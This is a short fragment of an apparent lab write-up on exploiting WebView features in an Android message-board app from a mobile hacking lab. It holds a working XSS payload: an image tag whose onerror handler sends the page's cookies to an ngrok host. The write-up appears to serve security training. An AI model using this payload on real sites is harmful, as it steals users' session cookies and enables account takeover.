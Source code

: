 ```yaml
---
author: pl4int3xt
layout: post
title: Lab - Post Board
date: '2024-05-22'
description: "Investigate a Android app where you can post messages with exploitable WebView functionalities."
// cover: /img/cover_images/51.png
categories: [Mobile Hacking Lab]
---
```


<img src="non-existing-image.png" onerror="fetch('https://f452-105-231-69-149.ngrok-free.app/?cookie='+document.cookie); " />